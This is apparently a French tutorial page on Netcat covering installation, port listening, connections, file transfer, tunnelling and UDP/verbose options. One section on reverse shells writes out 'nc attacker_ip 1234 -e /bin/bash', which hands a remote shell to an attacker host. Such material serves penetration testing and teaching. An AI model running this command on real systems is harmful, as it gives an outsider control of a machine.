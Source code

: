 # Netcat

#### Introduction

Netcat, souvent surnommé "le couteau suisse des réseaux", est un outil polyvalent et puissant utilisé pour la gestion des connexions réseau. Il peut être utilisé pour diverses tâches telles que l'écoute sur des ports, la connexion à des hôtes distants, le transfert de fichiers, et la création de tunnels. Netcat supporte à la fois les protocoles TCP et UDP, ce qui le rend extrêmement utile dans des scénarios de dépannage réseau, de tests de pénétration et de développement. Ce tutoriel vous guidera à travers les étapes d'installation et d'utilisation de Netcat sur les systèmes Linux et Windows.

**Installation sur Linux**

1.  **Installer via apt (pour les distributions basées sur Debian)** :

    ```bash
    sudo apt update
    sudo apt install netcat
    ```

    * **Explication** :
      * `sudo apt update` : Met à jour la liste des paquets disponibles.
      * `sudo apt install netcat` : Installe Netcat via le gestionnaire de paquets `apt`.

#### Utilisation de Base

**1. Écoute d’un Port**

1.  **Lancer Netcat pour écouter sur un port spécifique** :

    ```bash
    nc -l -p 1234
    ```

    * **Explication** :
      * `-l` : Met Netcat en mode écoute (listening).
      * `-p 1234` : Spécifie le port sur lequel Netcat écoutera les connexions (port 1234 dans cet exemple).


2.  **Exemple avec une adresse IP spécifique** :

    ```bash
    nc -l -p 1234 -s 192.168.1.100
    ```

    * **Explication** :
      * `-s 192.168.1.100` : Spécifie l'adresse IP sur laquelle écouter.



**2. Connexion à un Hôte**

1.  **Se connecter à un serveur sur un port spécifique** :

    ```bash
    nc example.com 1234
    ```

    * **Explication** :
      * `example.com` : L'adresse de l'hôte auquel se connecter.
      * `1234` : Le port sur lequel se connecter.


2.  **Connexion avec une adresse IP spécifique** :

    ```bash
    nc 192.168.1.100 1234
    ```

**3. Transfert de Fichiers**

1. **Envoyer un fichier à travers une connexion Netcat** :
   *   **Sur l’hôte récepteur (écouteur)** :

       ```bash
       nc -l -p 1234 > received_file.txt
       ```

       * **Explication** : Le fichier reçu sera enregistré en tant que `received_file.txt`.


   *   **Sur l’hôte émetteur (expéditeur)** :

       ```bash
       nc example.com 1234 < file_to_send.txt
       ```

       * **Explication** : `file_to_send.txt` est le fichier à envoyer.

**4. Création d’un Tunnel**

1.  **Créer un tunnel pour rediriger un port local vers un port distant** :

    ```bash
    nc -l -p 1234 | nc example.com 5678
    ```

    * **Explication** : Cette commande redirige le trafic du port 1234 local vers le port 5678 sur `example.com`.



**5. Scénario de Reverse Shell**

1.  **Écouter sur un port (sur l’attaquant)** :

    ```bash
    nc -l -p 1234
    ```
2.  **Lancer un reverse shell (sur la machine cible)** :

    ```bash
    nc attacker_ip 1234 -e /bin/bash
    ```

    * **Explication** :
      * `attacker_ip` : Adresse IP de l'attaquant.
      * `-e /bin/bash` : Exécute `/bin/bash` pour fournir un shell interactif.



#### Options Avancées

**1. Mode UDP**

1.  **Écouter sur un port UDP** :

    ```bash
    nc -u -l -p 1234
    ```

    * **Explication** :
      * `-u` : Utilise le protocole UDP au lieu de TCP.


2.  **Se connecter via UDP** :

    ```bash
    nc -u example.com 1234
    ```

**2. Mode Verbose**

1.  **Activer le mode verbose pour plus d’informations** :

    ```bash
    nc -v -l -p 1234
    ```

    * **Explication** :
      * `-v` : Active le mode verbose pour afficher des informations supplémentaires.

